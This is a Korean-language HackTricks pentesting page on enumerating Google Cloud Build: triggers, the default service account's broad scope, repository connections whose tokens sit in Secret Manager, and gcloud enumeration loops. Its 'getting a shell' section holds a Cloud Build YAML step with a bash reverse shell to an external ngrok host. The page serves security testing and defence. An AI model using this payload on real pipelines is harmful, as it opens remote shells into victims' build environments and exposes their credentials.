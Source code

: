 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>에서 <strong>제로에서 영웅까지 AWS 해킹을 배워보세요</strong>!<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에서 광고를 보고 싶거나 HackTricks를 PDF로 다운로드하려면** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## 기본 정보

Google Cloud Build는 **소프트웨어 빌드** 및 릴리스 프로세스를 자동화하는 관리형 CI/CD 플랫폼으로, **소스 코드 저장소**와 통합되며 다양한 프로그래밍 언어를 지원합니다. 개발자는 코드를 **자동으로 빌드, 테스트 및 배포**할 수 있으며, 빌드 단계와 워크플로를 사용자 정의할 수 있는 유연성을 제공합니다.

각 Cloud Build 트리거는 **Cloud Repository에 연결**되거나 외부 저장소(Github, Bitbucket 및 Gitlab)와 직접 연결됩니다.

{% hint style="success" %}
여기나 Cloud Repositories에서 Github/Bitbucket 토큰을 도용할 수 있는 방법을 볼 수 없었습니다. 저장소가 다운로드되면 [https://source.cloud.google.com/](https://source.cloud.google.com/) URL을 통해 액세스되며, Github는 클라이언트에 의해 액세스되지 않습니다.
{% endhint %}

### 이벤트

Cloud Build는 다음과 같은 경우에 트리거될 수 있습니다:

* **브랜치에 푸시**: 브랜치 지정
* **새로운 태그 푸시**: 태그 지정
* **풀 리퀘스트**: PR을 받는 브랜치 지정
* **수동 호출**
* **Pub/Sub 메시지**: 토픽 지정
* **Webhook 이벤트**: HTTPS URL을 노출하고 요청은 비밀로 인증되어야 함

### 실행

3가지 옵션이 있습니다:

* 명령어를 지정하는 yaml/json. 일반적으로: `/cloudbuild.yaml`
* 웹 콘솔 및 CLI에서 "인라인"으로 지정할 수 있는 하나의 옵션
* 가장 일반적인 옵션
* 인증되지 않은 액세스에 관련이 있음
* 빌드를 위한 **Dockerfile**
* 빌드를 위한 **Buildpack**

### SA 권한

**서비스 계정은 `cloud-platform` 범위를 갖고 있으므로 모든 권한을 사용할 수 있습니다.** **SA가 지정되지 않은 경우**(제출할 때와 같이) **기본 SA** `<proj-number>@cloudbuild.gserviceaccount.com`이 **사용됩니다.**

기본적으로 권한이 없지만 쉽게 권한을 부여할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 승인

Cloud Build를 구성하여 빌드 실행에 대한 **승인을 요구**할 수 있습니다(기본적으로 비활성화).

### 연결 및 저장소

연결은 다음을 통해 생성할 수 있습니다:

* **GitHub:** 권한을 요청하는 OAuth 프롬프트가 표시되며, **Github 토큰을 가져오기 위한** 권한을 요청합니다. 이 토큰은 **Secret Manager에 저장**됩니다.
* **GitHub Enterprise:** **GithubApp**을 설치하도록 요청합니다. GitHub Enterprise 호스트에서 **인증 토큰**이 생성되어 이 프로젝트에 **Secret Manager** 비밀로 저장됩니다.
* **GitLab / Enterprise:** API 액세스 토큰과 읽기 API 액세스 토큰을 **제공**해야 합니다. 이 토큰은 **Secret Manager에 저장**됩니다.

연결이 생성되면 Github 계정이 액세스할 수 있는 저장소를 연결에 사용할 수 있습니다.

이 옵션은 다음 버튼을 통해 사용할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
이 방법으로 연결된 저장소는 **2세대를 사용하는 트리거에서만 사용 가능**합니다.
{% endhint %}

### 저장소 연결

이는 **`연결`**과 동일하지 않습니다. 이는 **Github 또는 Bitbucket** 저장소에 **액세스하는 다른 방법**을 제공하지만 **연결 개체를 생성하지 않고, 저장소 개체(1세대)를 생성**합니다.

이 옵션은 다음 버튼을 통해 사용할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 저장소

가끔 Cloud Build는 **트리거의 파일을 저장하기 위해 새로운 저장소를 생성**할 수 있습니다. 이는 GCP가 제공하는 예제에서 발생합니다.
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### 쉘 획득하기
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 열거

빌드 구성 및 로그에서 **민감한 정보를 찾을 수 있습니다**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 권한 상승

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 인증되지 않은 액세스

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 사후 침투

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹 배우기<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* 회사를 **HackTricks에서 광고**하거나 **PDF로 HackTricks 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션인 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기술을 공유하세요.

</details>
